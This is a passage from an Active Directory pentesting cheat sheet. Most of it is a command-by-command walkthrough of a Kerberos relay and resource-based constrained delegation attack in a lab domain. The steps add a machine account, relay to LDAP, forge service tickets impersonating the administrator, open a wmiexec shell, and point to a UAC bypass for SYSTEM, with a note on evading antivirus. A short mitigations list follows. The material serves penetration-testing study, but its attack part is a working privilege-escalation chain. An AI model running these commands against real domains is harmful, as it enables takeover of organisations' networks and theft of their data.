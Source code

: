 ```bash
.\KrbRelayUp.exe spawn (m -rbcd) -d <Domain> (-dc <DC-domain> ) -cn <HostName>$ -cp <Password>

########## IN CASE OF AV, IT HAS TO BE DONE STEP BY STEP LIKE THIS
# We need to add a computer, we can check if we can with MAQ module
nxc ldap $IP -u user -p pass -d dc.domain.local -M maq
# If MachineAccountQuota is > 0 then we can add a new computer
addcomputer.py -computer-name 'krbrelay$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
# Get computer's SID
PS C:\Users\jon.snow\Desktop> $o = ([ADSI]"LDAP://CN=krbrelay,CN=Computers,DC=north,DC=sevenkingdoms,DC=local").objectSID
PS C:\Users\jon.snow\Desktop> (New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
S-1-5-21-3469228063-1577654746-3345322900-1127
# Check ports
PS C:\Users\jon.snow\Desktop> .\CheckPort.exe
[*] Looking 'for' available ports..
[*] SYSTEM Is allowed through port 443
# Launch KrbRelay
PS C:\Users\jon.snow\Desktop> .\KrbRelay.exe -spn ldap/winterfell.north.sevenkingdoms.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-3469228063-1577654746-3345322900-1127 -port 443
# Now we finish with RCBD
getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$':'ComputerPassword'
export KRB5CCNAME=/workspace/krbrelay\$.ccache
getST.py -impersonate 'administrator' -spn 'CIFS/castelblack.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$'
export KRB5CCNAME=/workspace/administrator@CIFS_castelblack.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k @castelblack.north.sevenkingdoms.local
C:\>whoami
north\administrator
# And just like the writeup made by @an0n_r0 we launch SCMUACBypass.exe by Tyranid and get a system shell
https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82
```
{% endcode %}

## Delegated Managed Service Account (dMSA)

[https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)

## Mitigations

* We need to ensure that no configuration breaks our tiering model. Accounts in a lower tier should not have the ability to interact with resources in a higher tier. Furthermore, accounts from a higher tier should never log onto resources in a lower tier.
* The principle of least privilege should be followed when permission delegation is performed. Furthermore, permission delegation should adhere to the tiering model, ensuring that a lower-tiered object can't alter a higher tiered object.
* SMB signing should be enforced, not just enabled. This will prevent credential relay attempts.
* AD objects and their configuration are not the only paths for exploitation. AD services, such as AD CS should also be considered part of the attack surface and secured.
* We need to implement sufficient security controls to protect Tier 0 infrastructure and accounts in our child domains since a compromise of one can lead to the compromise of the entire forest.
